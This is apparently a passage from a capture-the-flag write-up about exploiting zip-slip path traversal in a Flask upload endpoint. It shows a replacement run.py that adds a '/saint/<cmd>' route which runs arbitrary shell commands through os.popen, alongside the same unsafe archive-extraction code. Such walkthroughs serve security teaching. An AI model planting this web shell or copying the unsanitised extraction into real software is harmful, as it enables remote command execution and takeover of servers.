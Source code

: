 
<img src="images/image13.png" width="400">

Good! Looks like we have overwriten `run.py`. Now i will upload a modified version of `run.py` to include a route that gives me a web shell, like so:

```
from flask import Flask, request
import zipfile, os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(32)
app.config['MAX_CONTENT_LENGTH'] = 1 * 1024 * 1024
app.config['UPLOAD_FOLDER'] = '/tmp/uploads/'

@app.route('/')
def source():
    return ' %s ' % open('/app/run.py').read()

@app.route('/saint/<cmd>')
def execute_cmd(cmd):
    cmd = os.popen(cmd).read()
    return '<pre> %s ' % cmd

def zip_extract(zarchive):
    with zipfile.ZipFile(zarchive, 'r') as z:
        for i in z.infolist():
            with open(os.path.join(app.config['UPLOAD_FOLDER'], i.filename), 'wb') as f:
                f.write(z.open(i.filename, 'r').read())

@app.route('/zip_upload', methods=['POST'])
def zip_upload():
    try:
        if request.files and 'zarchive' in request.files:
            zarchive = request.files['zarchive']
            if zarchive and '.' in zarchive.filename and zarchive.filename.rsplit('.', 1)[1].lower() == 'zip' and zarchive.content_type == 'application/octet-stream':
                zpath = os.path.join(app.config['UPLOAD_FOLDER'], '%s.zip' % os.urandom(8).hex())
                zarchive.save(zpath)
                zip_extract(zpath)
                return 'Zip archive uploaded and extracted!'
        return 'Only valid zip archives are acepted!'
    except:
         return 'Error occured during the zip upload process!'

if __name__ == '__main__':
    app.run()

```
